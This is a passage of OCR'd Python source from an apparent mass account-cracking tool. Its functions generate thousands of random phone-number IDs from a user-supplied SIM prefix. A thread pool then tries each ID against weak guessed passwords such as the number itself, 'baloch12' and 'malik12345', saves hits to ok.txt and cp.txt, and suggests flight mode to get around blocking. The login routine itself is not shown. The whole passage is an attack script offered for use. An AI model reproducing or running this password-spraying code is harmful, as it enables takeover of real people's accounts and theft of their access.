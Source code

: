 			pwx = [guru,kode+guru,'baloch','malik12','baloch12','baloch12345','malik12345']
			yaari.submit(fcrack,uid,pwx,tl)
	linex()
	print('[✓] Crack process has been completed')
	print('[?] Idz saved in [ok.txt,cp.txt]')
	linex()
	input('Press Enter To Go Back To Menu')
	menu()
#____
def bd1():
	uid=[]
	os.system('clear')
	print(logo)
	print('[√] EXAMPLE : 88***,88***,88***,.ETC')
	linex()
	kode = input('[+]\033[1;37m PUT YOUR SIM CODE : ')
	os.system('clear')
	print(logo)
	print(' Example : 1000,5000,10000,****Etc')
	limit = int(input('[+] Putt Ypur Idz lemit :  '))
	for nmbr in range(limit):
		nmp = ''.join(random.choice(string.digits) for _ in range(7))
		uid.append(nmp)
	with ThreadPool(max_workers=35) as yaari:
		os.system('clear')
		print(logo)
		tl = str(len(uid))
		print(' Total Acounts : '+tl)
		print(' Selected Code : \x1b[1;92m'+kode)
		print('\x1b[1;91m If you no result use flight mode')
		linex()
		for guru in uid:
			uid = kode+guru
			pwx = [guru,kode+guru]
			yaari.submit(fcrack,uid,pwx,tl)
	linex()
	print('[✓] Crack process has been completed')
	print('[?] Idz saved in [ok.txt,cp.txt]')
	linex()
	input('Press Enter To Go Back To Menu')
	menu()

#___
def bd2():
	uid=[]
	os.system('clear')
	print(logo)
	print('[√] EXAMPLE : 88***,88***,88***,.ETC')
	linex()
	kode = input('[+]\033[1;37m PUT YOUR SIM CODE : ')
	os.system('clear')
	print(logo)
	print(' Example : 1000,5000,10000,****Etc')
	limit = int(input('[+] Putt Ypur Idz lemit :  '))
	for nmbr in range(limit):
		nmp = ''.join(random.choice(string.digits) for _ in range(7))
		uid.append(nmp)
	with ThreadPool(max_workers=35) as yaari:
		os.system('clear')
		print(logo)
		tl = str(len(uid))
		print(' Total Acounts : '+tl)
		print(' Selected Code : \x1b[1;92m'+kode)
		print('\x1b[1;91m If you no result use flight mode')